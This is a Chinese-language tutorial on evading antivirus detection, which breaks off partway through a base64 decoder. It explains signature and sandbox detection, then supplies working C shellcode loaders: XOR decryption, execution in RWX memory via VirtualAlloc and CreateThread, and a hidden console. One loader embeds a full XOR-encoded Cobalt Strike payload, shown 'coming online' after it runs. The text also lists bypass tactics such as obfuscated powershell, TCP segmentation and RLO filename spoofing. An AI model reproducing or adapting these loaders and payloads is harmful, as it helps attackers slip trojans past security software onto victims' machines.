# 1.免杀介绍

## 1.1什么是免杀

免杀，也就是反病毒(AntiVirus)与反间谍(AntiSpyware)的对立面，英文为Anti-AntiVirus(简写 Virus AV) ， 逐字翻译为"反 - 反病毒"，翻译为"反病毒技术"。

**它是一种能使病毒木马免于被杀毒软件查杀的技术**。由于免杀技术的涉猎面非常广，其中包含反汇编、逆向工程、系统漏洞等黑客技术，所以难度很高，一般人不会或者没能力接触这些深层技术。其内容基本上都是修改病毒、木马的内容改变特征码，从而躲避了杀毒软件的查杀。

简单来说就是：就是通过一些技术手段 , 让你的 恶意样本 ( 木马和病毒 ) 规避掉杀毒软件的检测 , 能够像正常程序一样运行。

## 1.2为什么有免杀

默认一些c2 ( command && control ) 生成的木马 ( 恶意样本 ) , 其特征已经被各大杀毒软件给标记到了自己的木马病毒库中 , 所以在实战中如果目标存在杀软 , 我们需要对自己的木马 ( 恶意样本 ) 进行免杀。

## 1.3免杀的方法有哪些

常见的免杀方法

```
1.加壳 
2.shellcode混淆, 加密 
3.各种语言的加载器, c, python , go等
4.powershell 混淆免杀 
5.分离免杀 ( 远程加载 ) shellcode和加载器不写在一个文件中 , 远程加载等
6.白加黑 ( 白名单程序执行恶意样本 )
7.使用 github 上的一些免杀工具
8.自己写加载器, 通过一些冷门的执行方式执行shellcode
9.自己写/二开远控等等...
```

# 2.杀软的介绍

```
杀软排名介绍
https://www.maigoo.com/maigoo/055soft_index.html
VT查杀
https://www.virustotal.com/gui/home/upload
https://www.virscan.org
微步云沙箱
https://s.threatbook.com
```

## 2.1杀软的查杀基本原理

常见的杀毒软件对程序的划分大致分为三种

### 无害

没有任何的可疑行为 , 没有任何的特征符合病毒或木马

### 可疑

存在可疑行为：操作注册表，打开powershell，修改用户，操作敏感文件等

### 存在木马病毒

特征符合木马或者病毒。

杀软常用识别恶意样本的方式：

- 静态查杀

- 动态查杀 ( 启发式查杀 )

## 2.2静态查杀

静态查杀通常会使用**病毒特征库**，这是一个包含病毒、恶意软件或其他威胁的特定标识的数据库。这些特定标识可以是文件的 ***特定代码片段 、 独特的字符串 、 文件结构*** 等。杀毒软件通过比对文件的这些特征与特征库中存在的信息是否匹配，来判断文件是否是恶意的。

**静态查杀大都是基于样本特征码的查杀, 常见的有360报毒**


比如, 上节课制作的加载器, 其特征早已经被标记了 HEUR, Trojan 以及



### 1.代码中的函数

杀软会通过反编译/查看exe字符串的方式查看代码 , 可以看到里面的一些函数和汇编代码，比如:` virtualalloc`，`rtlmovememory`，`creatthread` 等。
**主要都是 windows api 函数，尤其是和内存、堆、线程相关的函数。**

```
危险函数  远控关键词(msf , cobaltstrike)  一些关键字(shellcode) 等 
```

### 2.shellcode的特征

```
\xfc\x48\x83...     //这是CS制作的shellcode的明显特征码
```

### 3.文件名和md5

> RLO（Right-to-Left Override）翻转是一种字符编码漏洞利用技术，通常与Unicode字符U+202E相关。这个字符被用来改变文本的显示方向，特别是在阿拉伯语和希伯来语等从右向左书写的语言中。
> 
> 黑客可以滥用RLO字符来伪装文件扩展名，达到混淆或欺骗用户的目的。例如，攻击者可以将文件名设置为evil.exe，并通过RLO字符将其显示为 exe.livem，使文件看起来像是无害的文本文件或图像。当用户打开它时，实际上是执行了恶意程序。
> 
> 杀毒软件会直接删除或拦截含有RLO字符的文件，主要是因为这种技术常常与钓鱼攻击或恶意软件伪装有关。一旦RLO字符被检测到，它可能表明文件被恶意修改，以绕过用户或安全软件的检测。因此，为了防止潜在的安全威胁，杀毒软件会将使用RLO字符的文件识别为可疑并立即处理。

如果这个文件名使用了**rlo翻转**的话 , 无论是否是病毒都会直接杀 , md5值的话就是匹配样本库中的md5值 , 看是否存在

```
demo.txt.exe  --> demo.exe.txt
```

查看文件 md5 hash

```
CertUtil -hashfile 文件路径 md5
```

### 4.加密(可疑)

使用加密解密行为或者对文件有额外保护措施(加壳)

### 5.数字签名

判断当前程序的数字签名是否正常

```
正规的程序 , 都是有数字签名的
```



### 6.资源文件

指一个软件的一些图标信息, 产品名称, 产品版本, 文件版本, 版权, 语言等信息



## 2.3动态查杀

通常这一步都是静态分析之后做的，大多杀毒软件会有云沙箱 , 相当于开一个虚拟机运行一下你的恶意样本, 通过分析程序指令出现的顺序，或者特定的组合情况以及所调用的函数及其参数等属于恶意行为特征，来判断目标程序是不是病毒程序。

相比于静态查杀，动态查杀更关注程序的执行过程，允许检测和分析未知的、可能是恶意的行为。

### 1.计算机相关

通常由r1或r2层挂监控的方式（类似于hook）当触发这些条件就会产生事件 , 例如 : 360会在系统的内核层会对注册表和net1.exe进行监控 , 注册表的监控相对不那么严格 , 可以通过 win32 api 添加用户 , 通常杀软监控的有

```
服务
注册表
组策略
防火墙
敏感程序 : cmd powershell wmi psexec bitsadmin rundll等
用户 : 添加，删除，修改等操作
文件夹 :
C:\windows\system32 
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup %tmp% 等敏感文件夹
```

常见的绕过思路 : 替换方式方法 , cmd用不了 , 换powershell(混淆,编码,加密), 换windows api函数 , 或者用shellcode

### 2.网络相关

```
iP，域名，证书
查找通讯的ip或域名是否之前存在攻击行为

流量内容
时间特征：扫描等, 大规模扫描或其他不寻常的网络行为
内容特征：data字段中是否存在命令控制相关的关键词或或者加密特征
结构特征：是否存在已知远控的通讯结构特征 \x00\x00\0x00\x00
```

常见的绕过思路 ：

tcp分段，内容加密，使用合法证书等

补充 : 有些杀软可能没有那么强 , 但是总体杀软识别的就是这个大概思路

## 2.4样本启动流程



云安全校验其实就是把样本上传到了自己的云沙箱, 运行, 检测, 分析



# 3.shellcode处理

## 3.1shellcode加密

### 1.异或加密

一种非常简单方便的shellcode处理方式

```c_cpp
#include <windows.h> // 包含Windows API头文件
#include <stdio.h>   // 包含标准输入输出函数的头文件

// 异或加密函数
void myXor(unsigned char str[], int len, int key) {
    for (int i = 0; i < len; i++) {
        str[i] = str[i] ^ key; // 对每个字节进行异或操作
    }
}

int main() {
    int key = 123; // 定义异或加密/解密的密钥
    unsigned char buf[] = "\xfc\x48\x83"; // 定义一个包含shellcode的字节数组

    printf("原始shellcode:\r\n"); // 打印原始shellcode的提示信息
    for (int i = 0; i < sizeof(buf) - 1; i++) { // -1是因为buf包含了终止的'\0'字符
        printf("\\x%02x", buf[i]); // 以16进制格式打印每个字节
    }

    myXor(buf, sizeof(buf) - 1, key); // 对shellcode进行异或加密
    printf("\r\n\r\n异或后的shellcode:\r\n"); // 打印异或后的shellcode提示信息
    for (int i = 0; i < sizeof(buf) - 1; i++) {
        printf("\\x%02x", buf[i]); // 以16进制格式打印每个字节
    }

    myXor(buf, sizeof(buf) - 1, key); // 对shellcode进行异或解密（同样的操作可以恢复原始数据）
    printf("\r\n\r\n第二次异或后的shellcode:\r\n"); // 打印第二次异或后的shellcode提示信息
    for (int i = 0; i < sizeof(buf) - 1; i++) {
        printf("\\x%02x", buf[i]); // 以16进制格式打印每个字节
    }
}
```

如果实战中, 一次简单的异或仍然被查杀, 可以尝试多次异或, 只要两次的异或使用的key不同即可。

使用Python编写的xor工具 ， 第一个参数为 raw的shellcode, 第二个参数为异或使用的key, 范围在1-255

```
xor.exe payload.bin 99
```



加载器：该代码的核心目的是通过**异或解密**的方式，**将加密后的shellcode解密并执行**。通过VirtualAlloc申请一块可执行的内存，将解密后的shellcode复制进去，并通过创建线程的方式执行它。

```c_cpp
#include <windows.h> // 包含Windows API函数
#include <stdio.h>   // 包含标准输入输出函数

// 通过编译器指令隐藏控制台窗口
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")

// 异或加密/解密函数
void myXor(unsigned char str[], int len, int key) {
    for (int i = 0; i < len; ++i) {
        str[i] = str[i] ^ key; // 对每个字节进行异或操作
    }
}

// 加密后的shellcode（用异或后的数据表示，需解密才能执行）
unsigned char buf[] = "\x87\x33\xf8\x9f\x8b..."; // 这里应该放实际的异或后的shellcode

int main() {
    // 使用123作为异或密钥进行解密
    int key = 123;
    myXor(buf, sizeof(buf), key); // 对shellcode进行异或解密

    // 使用VirtualAlloc函数申请内存块，大小为解密后的shellcode长度，权限为可读、可写、可执行
    LPVOID addr = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 如果内存申请失败，程序退出
    if (addr == NULL) {
        return 1; // 返回错误代码1，表示内存分配失败
    }

    // 将解密后的shellcode拷贝到申请的内存块中
    memcpy(addr, buf, sizeof(buf));

    // 创建线程，执行解密后的shellcode，地址为申请的内存块地址
    HANDLE hThread = CreateThread(
        NULL,                // 默认安全属性
        NULL,                // 默认堆栈大小
        (LPTHREAD_START_ROUTINE)addr, // 线程开始执行的函数地址（即shellcode的起始地址）
        NULL,                // 传递给线程的参数
        NULL,                // 线程创建后立即运行
        0                    // 线程ID
    );

    // 等待线程执行完成
    WaitForSingleObject(hThread, INFINITE); // 等待线程执行完成，时间为无限（-1）

    // 关闭线程句柄
    CloseHandle(hThread);

    return 0; // 正常退出程序
}

```

#### 检验

##### 1.CS编写payload



##### 2.对payload进行多次异或



##### 3.加载器生成恶意木马文件

```c_cpp
#include <windows.h> // 包含Windows API函数
#include <stdio.h>   // 包含标准输入输出函数

// 通过编译器指令隐藏控制台窗口
#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"")

// 异或加密/解密函数
void myXor(unsigned char str[], int len, int key) {
  for (int i = 0; i < len; ++i) {
    str[i] = str[i] ^ key; // 对每个字节进行异或操作
  }
}

// 加密后的shellcode（用异或后的数据表示，需解密才能执行）
unsigned char buf[] = "\x87\x33\xf8\x9f\x8b\x93\xb3\x7b\x7b\x7b\x3a\x2a\x3a\x2b\x29\x2a\x2d\x33\x4a\xa9\x1e\x33\xf0\x29\x1b\x33\xf0\x29\x63\x33\xf0\x29\x5b\x33\xf0\x09\x2b\x33\x74\xcc\x31\x31\x36\x4a\xb2\x33\x4a\xbb\xd7\x47\x1a\x07\x79\x57\x5b\x3a\xba\xb2\x76\x3a\x7a\xba\x99\x96\x29\x3a\x2a\x33\xf0\x29\x5b\xf0\x39\x47\x33\x7a\xab\x1d\xfa\x03\x63\x70\x79\x0e\x09\xf0\xfb\xf3\x7b\x7b\x7b\x33\xfe\xbb\x0f\x1c\x33\x7a\xab\x2b\xf0\x33\x63\x3f\xf0\x3b\x5b\x32\x7a\xab\x98\x2d\x33\x84\xb2\x3a\xf0\x4f\xf3\x33\x7a\xad\x36\x4a\xb2\x33\x4a\xbb\xd7\x3a\xba\xb2\x76\x3a\x7a\xba\x43\x9b\x0e\x8a\x37\x78\x37\x5f\x73\x3e\x42\xaa\x0e\xa3\x23\x3f\xf0\x3b\x5f\x32\x7a\xab\x1d\x3a\xf0\x77\x33\x3f\xf0\x3b\x67\x32\x7a\xab\x3a\xf0\x7f\xf3\x33\x7a\xab\x3a\x23\x3a\x23\x25\x22\x21\x3a\x23\x3a\x22\x3a\x21\x33\xf8\x97\x5b\x3a\x29\x84\x9b\x23\x3a\x22\x21\x33\xf0\x69\x92\x34\x84\x84\x84\x26\x11\x7b\x32\xc5\x0c\x12\x15\x12\x15\x1e\x0f\x7b\x3a\x2d\x32\xf2\x9d\x37\xf2\x8a\x3a\xc1\x37\x0c\x5d\x7c\x84\xae\x33\x4a\xb2\x33\x4a\xa9\x36\x4a\xbb\x36\x4a\xb2\x3a\x2b\x3a\x2b\x3a\xc1\x41\x2d\x02\xdc\x84\xae\x90\x08\x21\x33\xf2\xba\x3a\xc3\xa9\x7f\x7b\x7b\x36\x4a\xb2\x3a\x2a\x3a\x2a\x11\x78\x3a\x2a\x3a\xc1\x2c\xf2\xe4\xbd\x84\xae\x90\x22\x20\x33\xf2\xba\x33\x4a\xa9\x32\xf2\xa3\x36\x4a\xb2\x29\x13\x7b\x79\x3b\xff\x29\x29\x3a\xc1\x90\x2e\x55\x40\x84\xae\x33\xf2\xbd\x33\xf8\xb8\x2b\x11\x71\x24\x33\xf2\x8a\x33\xf2\xa1\x32\xbc\xbb\x84\x84\x84\x84\x36\x4a\xb2\x29\x29\x3a\xc1\x56\x7d\x63\x00\x84\xae\xfe\xbb\x74\xfe\xe6\x7a\x7b\x7b\x33\x84\xb4\x74\xff\xf7\x7a\x7b\x7b\x90\xa8\x92\x9f\x7a\x7b\x7b\x93\xd9\x84\x84\x84\x54\x2a\x01\x3d\x37\x7b\x47\x2a\x8f\x54\x2e\x77\xf3\x08\xa0\xdc\xa0\x3a\xc1\x91\xd3\xb4\xe5\x71\x92\x5b\x79\x59\xfa\x91\x2a\xbf\x0b\xe0\xcb\x33\xe9\x98\xd9\x9b\x0b\x9b\x40\x43\x4a\x2f\x0e\x95\x18\xb5\x1f\xa8\xe2\x72\x50\x8f\x4c\x36\xd4\xd4\xd9\xd2\x45\xe0\xfb\xc8\x39\x1b\x2b\x43\xca\xaa\x08\xf5\xa3\x12\x56\x52\x13\x7b\x2e\x08\x1e\x09\x56\x3a\x1c\x1e\x15\x0f\x41\x5b\x36\x14\x01\x12\x17\x17\x1a\x54\x4e\x55\x4b\x5b\x53\x18\x14\x16\x0b\x1a\x0f\x12\x19\x17\x1e\x40\x5b\x36\x28\x32\x3e\x5b\x42\x55\x4b\x40\x5b\x2c\x12\x15\x1f\x14\x0c\x08\x5b\x35\x2f\x5b\x4d\x55\x4b\x40\x5b\x2f\x09\x12\x1f\x1e\x15\x0f\x54\x4e\x55\x4b\x40\x5b\x39\x34\x32\x3e\x42\x40\x3e\x35\x2e\x28\x52\x76\x71\x7b\x2b\x6f\xeb\x2c\xfa\x98\x46\xf0\x0f\xfc\x54\x63\x78\x5d\x28\xd6\xc1\xc1\x0f\x65\x99\x76\x16\x73\x7d\x91\x2a\x56\x33\xd1\x23\xc3\x05\x14\x86\x5e\xf2\xd2\x8a\xac\x63\xd4\xe0\x50\xfe\xa6\x92\x0c\x4b\xb3\xa3\x6e\xe2\x3b\x1a\x16\x30\x93\x4f\x11\x1a\x65\xc3\x0e\x28\x27\x3c\xa2\x89\xc8\x88\xa4\x63\x82\x69\x62\xd6\xe9\xcb\x16\xcb\xff\x7b\x77\xef\x27\x6d\x19\xcb\x4a\x59\xe1\xd5\x59\xf9\x8d\x63\xb4\x58\xd5\x9a\x67\xf1\xc2\x3f\xd8\x60\xcd\x64\x47\x23\x1f\xe2\x6b\x72\x7f\xa7\x2e\x6d\x6f\x63\xb3\x27\xf1\x48\x3d\x7b\x70\x1a\x30\xbb\x42\xe0\x21\x9b\xd3\x1a\xdd\x45\xbf\xb0\x0c\xdb\x5a\x6e\xc7\x9f\xab\xcd\x78\x9f\x4d\x61\xbf\x0d\x7e\x36\xc9\x8f\x51\x75\x21\xc2\x9e\xbf\x50\x33\x6c\x16\xfa\x3f\x5e\xe5\x0d\x0a\x1f\x6c\xa3\xe9\xa7\x8b\xe4\x39\x4f\xb2\x40\x5c\x92\x7a\xe0\xff\x25\xb5\x92\x53\x23\x25\x95\xe6\x2b\x10\xdf\xcb\x46\x02\x31\xd9\xfa\x79\xa6\xe1\x99\x4d\x7b\x3a\xc5\x8b\xce\xd9\x2d\x84\xae\x33\x4a\xb2\xc1\x7b\x7b\x3b\x7b\x3a\xc3\x7b\x6b\x7b\x7b\x3a\xc2\x3b\x7b\x7b\x7b\x3a\xc1\x23\xdf\x28\x9e\x84\xae\x33\xe8\x28\x28\x33\xf2\x9c\x33\xf2\x8a\x33\xf2\xa1\x3a\xc3\x7b\x5b\x7b\x7b\x32\xf2\x82\x3a\xc1\x69\xed\xf2\x99\x84\xae\x33\xf8\xbf\x5b\xfe\xbb\x0f\xcd\x1d\xf0\x7c\x33\x7a\xb8\xfe\xbb\x0e\xac\x23\x23\x23\x33\x7e\x7b\x7b\x7b\x7b\x2b\xb8\x93\xe4\x86\x84\x84\x43\x55\x4a\x48\x4b\x55\x48\x4e\x55\x4a\x48\x48\x7b\x69\x4f\x2d\x03"; // 这里应该放实际的异或后的shellcode

int main() {
  // 使用123作为异或密钥进行解密
  int key = 123;
  myXor(buf, sizeof(buf), key); // 对shellcode进行异或解密

  // 使用VirtualAlloc函数申请内存块，大小为解密后的shellcode长度，权限为可读、可写、可执行
  LPVOID addr = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // 如果内存申请失败，程序退出
  if (addr == NULL) {
    return 1; // 返回错误代码1，表示内存分配失败
  }

  // 将解密后的shellcode拷贝到申请的内存块中
  memcpy(addr, buf, sizeof(buf));

  // 创建线程，执行解密后的shellcode，地址为申请的内存块地址
  HANDLE hThread = CreateThread(
      NULL,                // 默认安全属性
      NULL,                // 默认堆栈大小
      (LPTHREAD_START_ROUTINE)addr, // 线程开始执行的函数地址（即shellcode的起始地址）
      NULL,                // 传递给线程的参数
      NULL,                // 线程创建后立即运行
      0                    // 线程ID
  );

  // 等待线程执行完成
  WaitForSingleObject(hThread, INFINITE); // 等待线程执行完成，时间为无限（-1）

  // 关闭线程句柄
  CloseHandle(hThread);

  return 0; // 正常退出程序
}
```



##### 4.运行后上线



### 2.base64编码

使用c语言实现一个从16进制字符串中读取shellcode, 进行base64编码

```
base64.exe p.txt
p.txt为16进制字符串的shellcode
```



加载器 c 

base64.h

```c_cpp
#ifndef base64_h 
#define base64_h       // 防止重复包含此头文件的宏定义

#include <stdio.h>      // 引入标准输入输出库

#if __cplusplus 
extern"C" {            // 如果是C++环境，使用C语言的链接规范
#endif

  int base64_encode(const char* indata, int inlen, char* outdata, int* outlen);  // 声明Base64编码函数
  int base64_decode(const char* indata, int inlen, char* outdata, int* outlen);  // 声明Base64解码函数

#if __cplusplus 
}                      // 结束extern "C" 块
#endif

#endif /* base64_h */   // 结束防止重复包含
```

base64.c

```c_cpp
#include "base64.h"    // 包含自定义的base64头文件
#include <stdio.h>      // 包含标准输入输出库
#include <stdlib.h>     // 包含标准库函数

// base64 转换表, 共64个字符，用于编码
static const char base64_alphabet[] = {
    'A', 'B', 'C', 'D', 'E', 'F', 'G',
    'H', 'I', 'J', 'K', 'L', 'M', 'N',
    'O', 'P', 'Q', 'R', 'S', 'T',
    'U', 'V', 'W', 'X', 'Y', 'Z',
    'a', 'b', 'c', 'd', 'e', 'f', 'g',
    'h', 'i', 'j', 'k', 'l', 'm', 'n',
    'o', 'p', 'q', 'r', 's', 't',
    'u', 'v', 'w', 'x', 'y', 'z',
    '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
    '+', '/' };

// 解码时使用的Base64字符映射表，用于将Base64字符映射到相应的值
static const unsigned char base64_suffix_map[256] = {
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 253, 255,
    255, 253, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 253, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 62, 255, 255, 255, 63,
    52, 53, 54, 55, 56, 57, 58, 59, 60, 61, 255, 255,
    255, 254, 255, 255, 255, 0, 1, 2, 3, 4, 5, 6,
    7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18,
    19, 20, 21, 22, 23, 24, 25, 255, 255, 255, 255, 255,
    255, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36,
    37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48,
    49, 50, 51, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255, 255,
    255, 255, 255, 255 };

// 将一个字节的位向左移和向右移操作的辅助函数
static char cmove_bits(unsigned char src, unsigned lnum, unsigned rnum) {
    src <<= lnum; // 向左移指定的位数
    src >>= rnum; // 向右移指定的位数
    return src;   // 返回结果
}

// Base64 编码函数
int base64_encode(const char* indata, int inlen, char* outdata, int* outlen) {
    int ret = 0;  // 返回值，默认为0表示成功
    if (indata == NULL || inlen == 0) {  // 输入数据指针为空或长度为0时返回-1
        return ret = -1;
    }

    int in_len = 0; // 调整后的输入数据长度，需要是3的倍数
    int pad_num = 0; // 需要填充的字符数
    if (inlen % 3 != 0) {  // 输入长度不是3的倍数时计算填充字符数
        pad_num = 3 - inlen % 3;
    }
    in_len = inlen + pad_num; // 调整后的长度
    int out_len = in_len * 8 / 6; // 编码后的输出长度
    char* p = outdata; // 输出数据的指针

    // 编码过程，每次处理3字节的数据
    for (int i = 0; i < in_len; i += 3) {
        int value = *indata >> 2; // 处理第一个字节，右移2位
        char c = base64_alphabet[value]; // 获取对应的Base64字符
        *p = c; // 保存到输出数据

        // 处理最后一组数据时的填充字符
        if (i == inlen + pad_num - 3 && pad_num != 0) {
            if (pad_num == 1) {
                *(p + 1) = base64_alphabet[(int)(cmove_bits(*indata, 6, 2) + cmove_bits(*(indata + 1), 0, 4))];
                *(p + 2) = base64_alphabet[(int)cmove_bits(*(indata + 1), 4, 2)];
                *(p + 3) = '='; // 填充一个'='
            } else if (pad_num == 2) { // 填充两个'='
                *(p + 1) = base64_alphabet[(int)cmove_bits(*indata, 6, 2)];
                *(p + 2) = '=';
                *(p + 3) = '=';
            }
        } else { // 处理正常的3字节数据
            *(p + 1) = base64_alphabet[cmove_bits(*indata, 6, 2) + cmove_bits(*(indata + 1), 0, 4)];
            *(p + 2) = base64_alphabet[cmove_bits(*(indata + 1), 4, 2) + cmove_bits(*(indata + 2), 0, 6)];
            *(p + 3) = base64_alphabet[*(indata + 2) & 0x3f];
        }
        p += 4; // 移动到下一个输出位置
        indata += 3; // 移动到下一个输入位置
    }
    if (outlen != NULL) { // 如果输出长度指针不为空，保存输出长度
        *outlen = out_len;
    }
    return ret; // 返回结果
}

// Base64 解码函数
int base64_decode(const char* indata, int inlen, char* outdata, int* outlen) {
    int ret = 0;  // 返回值，默认为0表示成功
    if (indata == NULL || inlen <= 0 || outdata == NULL || outlen == NULL) { // 检查输入参数有效性
        return ret = -1;
    }
    if (inlen % 4 != 0) { // 输入数据长度不是4的倍数时返回-2
        return ret = -2;
    }
    int t = 0, x = 0, y = 0, i = 0; // 临时变量
    unsigned char c = 0; // 当前字符的值
    int g = 3; // 填充字符数计数器
    while (indata[x] != 0) { // 遍历输入数据
        c = base64_suffix_map[indata[x++]]; // 根据输入字符查找Base64映射表的值
        if (c == 255) return -1; // 如果值不在映射表中返回-1
        if (c == 253) continue; // 跳过换行符或回车符
